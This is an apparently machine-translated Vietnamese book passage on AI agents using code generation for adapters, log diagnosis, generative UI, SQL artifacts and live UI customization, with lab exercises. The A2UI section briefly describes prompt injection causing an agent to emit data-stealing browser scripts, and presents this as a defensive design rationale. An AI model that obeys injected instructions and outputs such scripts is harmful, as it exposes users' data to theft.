> Đóng gói phân tích video dưới dạng Agent phụ để tránh số lượng lớn ảnh chụp màn hình chiếm ngữ cảnh Agent chính. Sau khi định vị, tập lệnh Blender API được tạo. Người đánh giá Agent thực hiện xem trước nhanh, kiểm tra các khung chính và đưa ra đề xuất sửa đổi phản hồi, đồng thời lặp lại cho đến khi đáp ứng các tiêu chuẩn trước khi hiển thị hoàn toàn.
>
> **Tiêu chí chấp nhận**: Agent có thể xác định chính xác các cảnh khác nhau trong video và tạo chính xác các tập lệnh chỉnh sửa dựa trên hướng dẫn ngôn ngữ tự nhiên. Vị trí điểm bắt đầu và điểm kết thúc là chính xác (với sai số dưới 3 giây). Nếu hướng dẫn chứa các yêu cầu về hiệu ứng đặc biệt (chuyển động chậm, chuyển tiếp, phụ đề) thì video được tạo sẽ áp dụng các hiệu ứng một cách chính xác. Người đánh giá Agent phát hiện các lỗi rõ ràng (thiếu nội dung quan trọng, bao gồm các phân đoạn không liên quan) và yêu cầu sửa lỗi. Định dạng tệp video đầu ra cuối cùng là chính xác và chất lượng hình ảnh như mong đợi.
>
### Mã làm bộ điều hợp hệ thống

Hầu hết mã trong các phần trước đều tạo ra những thứ "hướng đến con người" - báo cáo, slide, giao diện. Mã trong phần này chỉ theo một hướng khác: **kết nối máy với máy**. Trong các hệ thống thực, các dịch vụ bên ngoài mà Agent cần xử lý thường không có SDK tạo sẵn và giao diện có thể không được chuẩn hóa - thiếu tài liệu, định dạng trả về không chuẩn và các trường trôi theo phiên bản. Đối mặt với tình huống này, Agent không cần phải đợi ai đó viết trước lớp thích ứng. Thay vào đó, nó đọc tài liệu giao diện ngay tại chỗ hoặc quan sát trực tiếp một hoặc hai phản hồi thực và ngay lập tức tạo mã thích ứng: xây dựng ứng dụng khách HTTP, tập hợp tiêu đề xác thực, phân tích cú pháp cấu trúc trả về không chuẩn và dịch mô hình dữ liệu ngược dòng thành hình dạng mà phía hạ lưu có thể sử dụng. Đoạn mã ở đây trở thành “chất keo vạn năng” kết nối bất kỳ hệ thống nào - nơi nào không thể kết nối được, một miếng keo sẽ được tạo ra tại chỗ để bù đắp. Đây là cốt lõi của hướng "giao diện hệ thống" của siêu khả năng. Phân tích cú pháp nhật ký thích ứng sẽ được phát triển bên dưới là hiện thân của khả năng này trong kịch bản có thể quan sát: trước định dạng nhật ký ngày càng phát triển, Agent cũng dựa vào mã phân tích cú pháp được tạo tại chỗ để thích ứng.

"Keo đa năng" này cũng có thể được mở rộng sang **các hệ thống hoàn toàn không có API**: khi hệ thống bên ngoài chỉ hiển thị giao diện đồ họa, Agent trước tiên có thể vượt qua giao diện vận hành Computer Use (chi tiết sẽ được giới thiệu trong Chương 9), sau đó củng cố chuỗi thao tác đã hoàn thành thành công với mã là Công cụ RPA - chạy mã trực tiếp khi thực hiện cùng một tác vụ trong tương lai, hoàn thành các hoạt động với tốc độ cực cao và ổn định mà không cần phải sử dụng tư duy trực quan đắt tiền. Có thể nói RPA là dạng "bộ điều hợp hệ thống" cực đoan trên hệ thống không có giao diện; cơ chế "ghi lại và củng cố quy trình làm việc" này sẽ được ra mắt trong Chương 8.

Xử lý dữ liệu là một trong những nhiệm vụ phổ biến nhưng rắc rối nhất trong hệ thống phần mềm. Nguyên nhân cốt lõi nằm ở sự đa dạng và thay đổi liên tục của các định dạng dữ liệu. Cùng một hệ thống có thể sửa đổi định dạng dữ liệu nhiều lần trong quá trình phát triển của nó—thêm các trường mới, thay đổi cấu trúc lồng nhau, giới thiệu các kiểu mới. Mã phân tích chữ viết tay cho mỗi định dạng cực kỳ tốn kém để duy trì. Mỗi sửa đổi định dạng đều yêu cầu cập nhật logic phân tích cú pháp, kiểm tra tính tương thích và triển khai phiên bản mới.

Việc tạo mã cung cấp một ý tưởng mới: cho phép Agent tạm thời tạo mã phân tích dựa trên dữ liệu mẫu khi gặp các định dạng mới và hệ thống sẽ tự động thích ứng với sự phát triển của các định dạng dữ liệu mà không cần can thiệp thủ công.

**Agent Phân tích và hiển thị nhật ký.**

Agent Observability của hệ thống phụ thuộc vào việc trực quan hóa quá trình thực thi. Một tác vụ Agent phức tạp có thể chứa hàng trăm bước, bao gồm nhiều lệnh gọi LLM, hàng chục lần thực thi công cụ và nhiều tương tác phụ Agent. Trực quan hóa dữ liệu này phải đối mặt với nhiều thách thức: các công cụ khác nhau trả về dữ liệu có cấu trúc khác nhau và định dạng tiếp tục phát triển theo các lần lặp lại hệ thống; một trajectory hoàn chỉnh có thể chứa hàng trăm nghìn ký tự và cần phải có sự cân bằng giữa tổng quan và chi tiết.

Việc tạo mã cung cấp một giải pháp tinh tế: thiết lập vòng phản hồi tự động sửa lỗi đó. Khi giao diện người dùng gặp định dạng nhật ký không thể phân tích cú pháp, thay vì hiển thị lỗi, nó sẽ tự động báo cáo thông tin lỗi (mẫu nhật ký gốc, báo cáo lỗi chi tiết) tới Agent. Agent phân tích cấu trúc dữ liệu mẫu và tạo mã giao diện người dùng có thể được phân tích cú pháp chính xác. Mã trước tiên được kiểm tra tự động trong trình duyệt ảo (xác minh tính chính xác của phân tích cú pháp, sử dụng Vision LLM để kiểm tra hiệu ứng trực quan), sau đó cập nhật nóng lên hệ thống giao diện người dùng sau khi vượt qua bài kiểm tra.

> **Thử nghiệm 5-7 ★★★: Hệ thống phân tích cú pháp nhật ký thích ứng**
>
> **Mục tiêu thử nghiệm**: Xây dựng hệ thống hiển thị nhật ký Agent tự phát triển.
>
> **Giải pháp kỹ thuật**: Hệ thống ban đầu chỉ hỗ trợ các định dạng cơ bản. Lỗi phát hiện và phân tích cú pháp giao diện người dùng → báo cáo Agent → tạo mã phân tích cú pháp → kiểm tra trình duyệt ảo → triển khai bản cập nhật nóng. Tự động hóa toàn bộ quá trình.
>
> **Tiêu chí chấp nhận**: Tự động phát hiện lỗi và kích hoạt quá trình học, mã được tạo vượt qua quá trình kiểm tra tự động và phân tích chính xác các định dạng mới sau khi cập nhật nóng.
>
**Agent thực hiện phân tích nhật ký tự động và chẩn đoán sự cố.**

Agent trong môi trường sản xuất sẽ tạo ra một số lượng lớn nhật ký trajectory (trajectory, ghi lại quá trình hoàn chỉnh của từng nhiệm vụ). Tuy nhiên, việc xác định vấn đề từ nhật ký, xác định nguyên nhân gốc rễ và xây dựng các trường hợp kiểm thử là một nhiệm vụ tốn kém. Khó xác định vị trí vấn đề vì lỗi nhiệm vụ có thể do lỗi phối hợp trong nhiều mô-đun; chi phí tái tạo cao vì độ phức tạp của môi trường sản xuất khó mô phỏng trong môi trường thử nghiệm; các vấn đề đã khắc phục có xu hướng tái diễn do thiếu kiểm tra hồi quy có hệ thống.

Việc tạo mã cung cấp một đường dẫn tự động đến chẩn đoán. Agent có thể đọc nhật ký sản xuất, kết hợp tài liệu kiến trúc và PRD (tài liệu yêu cầu sản phẩm) để tự động xác định xem quy trình thực thi có đáp ứng mong đợi hay không, đồng thời xác định các liên kết và mô-đun có vấn đề. Tạo báo cáo vấn đề có cấu trúc (mức độ ưu tiên, mô-đun, mô tả, đề xuất cải tiến) và các trường hợp kiểm thử hồi quy dựa trên kết quả phân tích - ID theo dõi vấn đề tham chiếu trường hợp kiểm thử và các vòng tương tác chính, đồng thời khung kiểm tra tự động phát lại để xác minh rằng hệ thống cố định tạo ra hành vi đúng trong cùng một đầu vào. Cuối cùng, Agent kết nối với GitHub thông qua MCP để tạo Vấn đề và giao vấn đề đó cho các nhà phát triển có liên quan, hoàn thành quá trình tự động hóa hoàn toàn từ phát hiện vấn đề đến phân công nhiệm vụ.

> **Thí nghiệm 5-8 ★★★: Hệ thống chẩn đoán thông minh cho nhật ký sản xuất**
>
> **Mục tiêu thử nghiệm**: Tự động phát hiện sự cố, tạo trường hợp thử nghiệm và tạo mục công việc từ trajectory sản xuất.
>
> **Giải pháp kỹ thuật**: Agent đọc bộ sưu tập trajectory của môi trường sản xuất và phân tích nó dựa trên các tài liệu kiến trúc hệ thống và PRD: xác định các dạng vấn đề và định vị các mô-đun liên quan. Tạo báo cáo vấn đề có cấu trúc (mức độ ưu tiên, mô-đun, mô tả, đề xuất cải tiến). Tự động tạo các trường hợp kiểm thử hồi quy (tham chiếu ID theo dõi và các vòng tương tác, được khung kiểm thử xác minh bằng cách tự động phát lại). Sự cố được tạo tự động bằng cách kết nối MCP với GitHub.
>
>
> 
>
>
### Mã dưới dạng giao diện người dùng tổng quát

Các hệ thống Agent truyền thống chủ yếu dựa vào hội thoại văn bản đơn giản để tương tác với người dùng. Tuy nhiên, văn bản, như một phương thức tương tác tuyến tính và đơn lẻ, không hiệu quả trong nhiều trường hợp. Khi cần thu thập thông tin có cấu trúc, các câu hỏi và câu trả lời lặp đi lặp lại sẽ khiến cuộc trò chuyện trở nên dài dòng; khi cần trình bày các mối quan hệ dữ liệu phức tạp, văn bản thuần túy có khả năng biểu đạt hạn chế; khi người dùng cần chọn từ nhiều tùy chọn, danh sách văn bản kém trực quan hơn nhiều so với giao diện trực quan.

Việc tạo mã cung cấp khả năng vượt qua những hạn chế này: Agent có thể tự động tạo các biểu mẫu, biểu đồ tương tác và thậm chí hoàn thành các ứng dụng web, nâng cấp các cuộc hội thoại văn bản tĩnh thành các tương tác đa phương thức phong phú. Mẫu giao diện được tạo động bởi Agent này được gọi là **Generative UI**(Generative UI).

**Giao thức lớp A2UI: Tiêu chuẩn hóa giao diện người dùng tổng quát.**

Khi Agent trực tiếp tạo mã HTML và JavaScript làm giao diện người dùng, có một vấn đề bảo mật cơ bản: mã được tạo có thể chứa nội dung độc hại. Ví dụ: nếu ai đó cố tình ẩn lệnh trong đầu vào, Agent có thể được nhắc thực hiện thao tác và vô tình tạo ra một tập lệnh có thể bí mật đánh cắp dữ liệu người dùng. Ở đây chúng ta cần làm rõ nguyên nhân và kết quả: nguyên nhân là nhắc nhở (các hướng dẫn độc hại được trộn vào đầu vào của Agent), và hậu quả cuối cùng là thực thi các tập lệnh độc hại và đánh cắp dữ liệu trên trình duyệt tương tự như Web XSS truyền thống (Cross-Site Scripting, tấn công cross-site scripting) - toàn bộ cuộc tấn công không thể gọi trực tiếp là XSS. Các giao thức giao diện khai báo được đại diện bởi A2UI (Giao diện Agent-to-User) đưa ra hướng đi an toàn hơn: Agent không trực tiếp tạo mã thực thi mà chỉ xuất ra một "danh sách mô tả giao diện" (định dạng JSON), chẳng hạn như "Hãy hiển thị một giao diện chứa 3 dòng, mỗi bảng 2 cột có tiêu đề "Dữ liệu bán hàng". Sau khi khách hàng nhận được danh sách này, nó hiển thị giao diện với các thành phần bảo mật được chuẩn bị trước của riêng nó. Nó giống như một thực đơn trong nhà hàng: khách hàng (Agent) chỉ có thể gọi các món ăn trong thực đơn (các thành phần được xác định trước), nhưng không thể vào bếp và tự nấu chúng (thực thi mã tùy ý). tương tự, không phải là ngôn ngữ mô tả giao diện mà là **giao thức sự kiện/truyền** hỗ trợ, chịu trách nhiệm truyền trạng thái thực thi của Agent (tin nhắn, lệnh gọi công cụ, bản vá trạng thái) đến giao diện người dùng. Nó thậm chí có thể mang các tải giao diện như A2UI. Do đó, cả hai đều bổ sung nhưng không giống nhau và không nên được liệt kê dưới dạng "giao thức giao diện khai báo" giống nhau.

Nguyên tắc thiết kế cốt lõi của loại giao thức này là **bảo mật là trên hết**: máy khách duy trì một thư mục gồm các thành phần đáng tin cậy (như Thẻ, Nút, TextField, Bảng), Agent chỉ có thể yêu cầu các thành phần đã có trong thư mục kết xuất và không thể chèn mã tùy ý. Máy khách kết xuất với các thành phần gốc của riêng nó thay vì thực thi HTML tùy ý do Agent tạo ra. Các giao thức như vậy cũng thường hỗ trợ **đa nền tảng**(mô tả tương tự được hiển thị trong React, Flutter và các ứng dụng gốc) và **tạo gia tăng**(truyền trực tuyến định dạng JSONL, hiển thị trong khi nhận).

Tất nhiên, cách tiếp cận khai báo phù hợp với các kịch bản tương tác được tiêu chuẩn hóa (biểu mẫu, bảng, thẻ), nhưng đối với các nhu cầu tùy biến cao (chẳng hạn như trực quan hóa tùy chỉnh, giao diện trò chơi), việc tạo mã trực tiếp vẫn là một lựa chọn linh hoạt hơn. Các ứng công cụ thể của hai chế độ được hiển thị dưới đây.

**Sử dụng HTML có thể phân phối: Thay thế báo cáo Markdown.** Giao diện người dùng sáng tạo không chỉ được sử dụng trong quá trình tương tác mà còn thay đổi hình dạng của **sản phẩm bàn giao** cuối cùng của Agent. Theo truyền thống, Agent thường tạo tài liệu báo cáo Markdown sau khi hoàn thành một nhiệm vụ; nhưng không dễ để đọc từng trang Markdown được sắp xếp tuyến tính. Khi khả năng tạo mã giao diện người dùng của Agent ngày càng trở nên mạnh mẽ hơn, ngày càng có nhiều phương pháp được thay đổi để cho phép nó trực tiếp tạo ra HTML. Sản phẩm HTML có thể phân phối có một số lợi thế khác biệt so với Markdown. Một là **trình diễn tương tác**: nó có thể trực tiếp chứng minh cách hệ thống vận hành ở dạng có thể hoạt động được. Người dùng thường có thể hiểu nó trong nháy mắt, điều này tốt hơn một mô tả văn bản dài. Thứ hai là **trực quan hóa dữ liệu tốt hơn**: sử dụng biểu đồ thay vì bảng để trình bày dữ liệu và xây dựng các thành phần tương tác để cho phép người dùng duyệt, lọc và xem chi tiết mà họ quan tâm. Thứ ba là **các sản phẩm được cải tiến bền vững**: HTML Trang web không nhất thiết phải là một thứ chết chóc được tạo ra một lần khi kết thúc nhiệm vụ mà có thể được Agent bổ sung và cải tiến liên tục khi công việc tiến triển.

Lấy kinh nghiệm viết bài của chính tác giả làm ví dụ: đối với mỗi dự án nghiên cứu, tác giả sẽ duy trì một trang web tương tác [^ch5-3], đây không chỉ là sản phẩm cuối cùng mà còn là tài liệu sống trong quá trình nghiên cứu - Tôi sẽ để Agent tiếp tục cập nhật khi quá trình thử nghiệm diễn ra. Trang web này đáp ứng ít nhất ba loại chức năng. Đầu tiên là **khả năng truy xuất nguồn gốc dữ liệu thử nghiệm**: bạn có thể xem từng dữ liệu cụ thể của từng thử nghiệm, lời nhắc được sử dụng và câu trả lời ban đầu của LLM trên trang web; bằng cách trải rộng những điều này, bạn sẽ dễ dàng tìm thấy các vấn đề về cấu trúc dữ liệu, định dạng dữ liệu và phân phối dữ liệu hơn, đồng thời cũng dễ dàng hơn để biết liệu có sai lệch hệ thống giữa câu trả lời của LLM và điểm của giám khảo hay không. Thứ hai là **giám sát chỉ số đào tạo**: liệt kê từng đường cong trong quá trình đào tạo trực tiếp trên trang web, giúp bạn dễ dàng xác nhận **các chỉ số nội khoa** của mô hình có khỏe mạnh bất cứ lúc nào hay không. Ở đây tôi mượn thuật ngữ "nội khoa" trong y học - các chỉ số nội khoa đề cập đến các tín hiệu bên trong phản ánh liệu bản thân quá trình đào tạo có bình thường hay không, chẳng hạn như mất đào tạo và mất xác minh, chỉ tiêu độ dốc, tốc độ học tập, sự bối rối khi mô hình xuất ra mã thông báo (sự bối rối, thước đo mức độ "nắm bắt" nội dung mà nó tạo ra của mô hình), cũng như phần thưởng trong học tập tăng cường, phân kỳ KL, entropy chính sách, v.v. Chúng khác với các chỉ số kết quả cuối cùng như độ chính xác của nhiệm vụ: giống như các chỉ số sinh lý khác nhau trong quá trình kiểm tra thể chất Đối với hoạt động bên ngoài của một người, các chỉ số y tế bên trong thường có thể bộc lộ các vấn đề như mất mát không hội tụ, bùng nổ độ dốc và sụp đổ quá trình đào tạo trước đó. Thứ ba là **Hiển thị nguyên tắc hoạt động**: Nguyên lý hoạt động của toàn bộ hệ thống được trình bày một cách trực quan để mọi người có thể nhìn sơ qua thấy rõ cấu trúc của hệ thống do AI xây dựng là gì.

[^ch5-3]: Bạn có thể tìm thấy trang web dự án nghiên cứu của tác giả tại https://01.me/research/, nơi mỗi dự án được trang bị một trang web tương tác được cập nhật liên tục.

**Làm rõ ý định của người dùng.**

Khi yêu cầu của người dùng mơ hồ hoặc không đầy đủ, Agent cần thu thập thông tin cần thiết bằng cách làm rõ các câu hỏi. Các sản phẩm như OpenAI Deep Research thường sử dụng phương pháp hỏi đáp bằng văn bản, nhưng điều này có những hạn chế rõ ràng: Về hiệu quả, mỗi câu hỏi cần một vòng đối thoại và mười điểm làm rõ cần mười vòng tương tác; về mặt biểu đạt, có sự phụ thuộc giữa một số câu hỏi (ví dụ: "chọn điểm đến du lịch" sẽ ảnh hưởng đến các tùy chọn của "phương thức vận chuyển") và rất khó để văn bản thuần túy thể hiện mối quan hệ xếp tầng này.

Thông qua việc tạo mã, Agent có thể tạo các giao diện tương tác có cấu trúc để thay thế phần Hỏi & Đáp bằng văn bản. Hình 5-8 cho thấy quy trình tạo biểu mẫu động, minh họa cách Agent chuyển các câu hỏi làm rõ thành một giao diện có cấu trúc có thể được điền một lần. Agent tạo biểu mẫu HTML chứa nhiều điều khiển đầu vào khác nhau - hộp văn bản để thu thập thông tin mở, menu thả xuống để cho phép người dùng chọn từ các tùy chọn được xác định trước, hộp kiểm để cho phép nhiều lựa chọn và bộ chọn ngày để đơn giản hóa việc nhập thời gian. Hơn nữa, Agent có thể tạo các biểu mẫu xếp tầng - logic động được triển khai thông qua JavaScript: tự động hiển thị hoặc ẩn các câu hỏi tiếp theo sau khi chọn một tùy chọn và cập nhật động các tùy chọn tùy chọn. Người dùng có thể điền vào toàn bộ biểu mẫu cùng một lúc mà không cần phải đối thoại nhiều lần và có thể thấy rõ mối quan hệ logic giữa tất cả thông tin cần điền và các câu hỏi.




> **Thử nghiệm 5-9 ★★: Hệ thống làm rõ ý định để tạo biểu mẫu động**
>
> **Mục tiêu của phòng thí nghiệm**: Xác minh khả năng của Agent trong việc làm rõ ý định của người dùng bằng cách tạo động biểu mẫu HTML.
>
> **Giải pháp kỹ thuật**: Agent Phân tích yêu cầu của người dùng, xác định các điểm làm rõ và tạo mã biểu mẫu chứa logic xếp tầng. Kết xuất giao diện người dùng, người dùng gửi một lần, Agent phân tích dữ liệu JSON và tiếp tục nhiệm vụ.
>
> **Tiêu chí chấp nhận**: Người dùng nhập "Tôi muốn đặt vé đến Bắc Kinh" và biểu mẫu Agent được tạo bao gồm: thành phố khởi hành (nhập văn bản), ngày khởi hành (bộ chọn ngày), loại chuyến đi (một lựa chọn: một chiều/khứ hồi), ngày về (chỉ hiển thị khi chọn "khứ hồi"). Người dùng gửi tất cả thông tin cùng một lúc.
>
**Tạo truy vấn SQL.**

Truy vấn cơ sở dữ liệu là một tình huống trong đó việc tạo mã có thể cải thiện đáng kể trải nghiệm tương tác. Truy cập cơ sở dữ liệu truyền thống dựa vào công cụ GUI hoặc chữ viết tay SQL. Cái trước thì cồng kềnh để vận hành và cái sau đòi hỏi người dùng phải có kiến thức chuyên môn. Agent có thể chuyển đổi ngôn ngữ tự nhiên thành SQL, nhưng có một lựa chọn thiết kế quan trọng ở đây: để Agent thực thi SQL rồi mô tả kết quả bằng ngôn ngữ tự nhiên hoặc để Agent tạo mã SQL dưới dạng một tạo phẩm và được giao diện người dùng thực thi trực tiếp?

Giải pháp đầu tiên có vẻ “thông minh” hơn nhưng lại cực kỳ kém hiệu quả – kết quả truy vấn có thể chứa hàng nghìn hàng bảng lớn, và yêu cầu LLM mô tả bằng văn bản sau khi đọc không chỉ tiêu tốn nhiều token và mất nhiều thời gian mà nghiêm trọng hơn, LLM rất dễ mắc lỗi khi “sao chép” dữ liệu. Một giải pháp tốt hơn là **chế độ tạo tác**. Hình 5-9 cho thấy quy trình làm việc của SQL truy vấn Agent: Agent không tự đọc dữ liệu mà tạo ra một đoạn mã truy vấn SQL và gửi mã này đến hệ thống dưới dạng một "tạo phẩm" độc lập. Hệ thống lấy phần SQL này và truy vấn trực tiếp cơ sở dữ liệu, hiển thị dữ liệu tìm thấy vào một bảng mà người dùng có thể nhìn thấy. Trong toàn bộ quá trình, dữ liệu đi thẳng từ cơ sở dữ liệu đến giao diện người dùng, hoàn toàn bỏ qua "người trung gian" LLM - LLM chỉ chịu trách nhiệm viết câu lệnh truy vấn. Không cần phải trực tiếp đọc hàng nghìn hàng dữ liệu rồi lặp lại cho người dùng. Nó nhanh và chính xác.




Hơn nữa, Agent có thể tạo hai tạo phẩm để tạo thành một đường dẫn: truy vấn SQL + mã trực quan (chẳng hạn như biểu đồ). Giao diện người dùng trực tiếp chuyển kết quả SQL tới mã trực quan. LLM chỉ chịu trách nhiệm tạo mã và không tham gia truyền dữ liệu - đây là bản chất của việc tạo mã như một giao diện.

> **Thử nghiệm 5-10 ★★: ERP cho tương tác ngôn ngữ tự nhiên Agent**
>
> Phần mềm ERP (Enterprise Resource Planning) là hệ thống then chốt của doanh nghiệp. Hiện tại, giao diện GUI được sử dụng phổ biến và các thao tác phức tạp đòi hỏi phải click chuột nhiều lần. AI Agent có thể chuyển đổi các truy vấn ngôn ngữ tự nhiên của người dùng thành các câu lệnh SQL để hiện thực hóa các truy vấn tự động.
>
> Cần thiết lập cơ sở dữ liệu PostgreSQL, trong đó có hai bảng: (1) bảng nhân viên, bao gồm ID nhân viên, tên, bộ phận, cấp bậc, ngày nhập cảnh và ngày từ chức (trống có nghĩa là đang tại chức); (2) bảng lương, bao gồm ID nhân viên, ngày trả lương và tiền lương (một bản ghi mỗi tháng). Agent trả lời tự động:
>
> 1. Trung bình mỗi nhân viên gắn bó với công việc bao lâu?
> 2. Mỗi bộ phận có bao nhiêu nhân viên đang hoạt động?
> 3. Bộ phận nào có trình độ nhân viên trung bình cao nhất?
> 4. Có bao nhiêu người mới được tuyển dụng ở mỗi bộ phận trong năm nay và năm ngoái?
> 5. Mức lương trung bình của bộ phận A từ tháng 3 năm trước đến tháng 5 năm ngoái là bao nhiêu?
> 6. Năm ngoái, bộ phận A hay bộ phận B có mức lương trung bình cao hơn?
> 7. Mức lương bình quân của nhân viên các cấp năm nay là bao nhiêu?
> 8. Mức lương bình quân trong tháng cuối cùng của người lao động đã làm việc trong vòng một năm, một đến hai năm và hai đến ba năm là bao nhiêu?
> 9. 10 nhân viên được tăng lương nhiều nhất từ năm ngoái đến năm nay?
> 10. Có bị nợ lương không (làm tháng nào đó nhưng chưa được trả lương)?
>
**Phần mềm tạo động.**

Ứng dụng cuối cùng của khả năng tạo mã là cho phép Agent tạo phần mềm hoàn toàn linh hoạt ngay từ đầu. "Hãy tưởng tượng với Claude" của Anthropic cho thấy ranh giới của khả năng này: người dùng đưa ra yêu cầu, Claude tạo giao diện ngoại vi và logic tương tác trong thời gian thực, người dùng tương tác với phần mềm được tạo và Claude sửa đổi mã để tạo giao diện mới nhằm hiển thị kết quả hoạt động. Trong suốt quá trình, người dùng sẽ thấy một ứng dụng phát triển từ đầu và tiếp tục phát triển.

Tuy nhiên, mẫu được tạo hoàn toàn động này có chi phí và độ trễ cao hơn và phù hợp hơn khi làm thử nghiệm để chứng minh ranh giới của các khả năng. Một hướng thực dụng hơn là thực hiện các sửa đổi tùy chỉnh dựa trên các khuôn khổ hiện có. Chế độ "bán tùy chỉnh" này duy trì sự ổn định của phần mềm cơ bản trong khi mở ra khả năng kiểm soát của người dùng ở các kích thước cụ thể - người dùng nói "đổi nút thành màu xanh", "thêm menu lối tắt vào thanh bên", "sửa đổi phông chữ để dễ đọc hơn", Agent hiểu các yêu cầu và sửa đổi mã giao diện người dùng cũng như tải nóng (HMR, Thay thế mô-đun nóng, thay thế nóng một phần, giữ nguyên trạng thái ứng dụng và có hiệu lực mà không cần trang đầy đủ làm mới) có hiệu lực ngay lập tức. Điều này biến sản phẩm tiêu chuẩn “phù hợp với tất cả” thành trải nghiệm cá nhân hóa “hàng nghìn người”.

> **Thử nghiệm 5-11 ★★: Hệ thống tùy chỉnh giao diện hội thoại**
>
> **Mục tiêu thử nghiệm**: Để cho phép người dùng tùy chỉnh ngay lập tức giao diện phần mềm thông qua đối thoại bằng ngôn ngữ tự nhiên và để xác minh tính hiệu quả của việc tạo mã được hỗ trợ bởi cơ chế tải nóng trong việc cung cấp trải nghiệm người dùng được cá nhân hóa.
>
> **Giải pháp kỹ thuật**: Xây dựng ứng dụng chatbot cơ bản (React front-end + FastAPI back-end). Cả mặt trước và mặt sau đều chạy ở chế độ phát triển và hỗ trợ tải nóng (tải lại HMR của React, FastAPI của React). Người dùng đưa ra các yêu cầu tùy chỉnh giao diện người dùng (màu sắc, phông chữ, bố cục, vị trí thành phần, v.v.) trong cuộc trò chuyện và Agent sẽ sửa đổi mã một cách độc lập. Cơ chế tải nóng tự động phát hiện các thay đổi của tệp, giao diện người dùng được biên dịch lại và làm mới, đồng thời người dùng thấy các thay đổi giao diện trong thời gian thực. Hỗ trợ nhiều vòng tùy chỉnh lặp đi lặp lại.
>
### Mã tạo mã: Agent Bootstrap

Các phần trước đã chỉ ra cách sử dụng tính năng tạo mã trong nhiều lĩnh vực khác nhau—từ tư duy toán học đến tạo tài liệu cho đến tùy chỉnh giao diện. Nếu chúng ta đẩy những khả năng này đến giới hạn của chúng, một câu hỏi tự nhiên sẽ xuất hiện: Agent có thể sử dụng khả năng tạo mã để tạo một Agent khác không?

Ở đây trước tiên chúng ta phải làm rõ sự phân công lao động với Chương 8. Phần này nói về Agent sử dụng mã **để sửa chữa và tạo ra Agent** cùng loại với chính nó - tự sửa chữa, tự sao chép và sao chép theo yêu cầu để tạo ra Agent mới, hoạt động trên mã và cấu trúc của Agent; "Tự tiến hóa" trong Chương 8 là một chuyện khác, đề cập đến Agent. Khả năng tiếp tục phát triển (kết tủa kinh nghiệm, tối ưu hóa lời nhắc và tích lũy công cụ) mà không thay đổi trọng số mô hình là nhắm vào kiến thức và chiến lược của Agent. Cả hai đều có thể được gọi là "tiến hóa". Để tránh nhầm lẫn với tiêu đề của Chương 8, phần này sử dụng bootstrapping để chỉ khả năng "sản xuất Agent bằng mã".


